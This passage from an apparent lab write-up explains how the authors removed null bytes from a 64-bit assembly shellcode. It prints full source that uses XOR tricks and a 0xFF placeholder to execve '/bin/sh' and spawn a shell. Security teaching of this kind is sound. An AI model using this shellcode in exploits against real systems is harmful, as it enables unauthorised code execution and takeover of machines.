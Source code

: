 ![Task 2.B.1](./img/Lab1/Task2.B.1.png)

And then we were able to solve it rewriting our `mysh64.sh`, using XOR commands to write the zeros implicitly. To remove the Null terminator of the string, we replaced it with a **0xFF** and then replacd it with a null **al** later in the code as we can see bellow:

```text
section .text
  global _start
    _start:
        BITS 64
        jmp short two
    one:
        pop rbx
        xor al, al 
        
        mov [rbx+7], al
        
        mov [rbx+8], rbx ; store rbx to memory at address rbx + 8
        xor rax, rax ; rax = 0
        mov [rbx+16], rax ; store rax to memory at address rbx + 16
        
        mov rdi, rbx ; rdi = rbx 
        lea rsi, [rbx+8] ; rsi = rbx + 8 
        
        xor rdx, rdx ; rdx = 0
        xor rax, rax
        mov rax, 59 ; rax = 59
        syscall
    two:
        call one
	db '/bin/sh', 0xFF ; The command string (terminated by a zero) 
	db 'AAAAAAAA' ; Place holder for argv[0]
	db 'BBBBBBBB' ; Place holder for argv[1]
```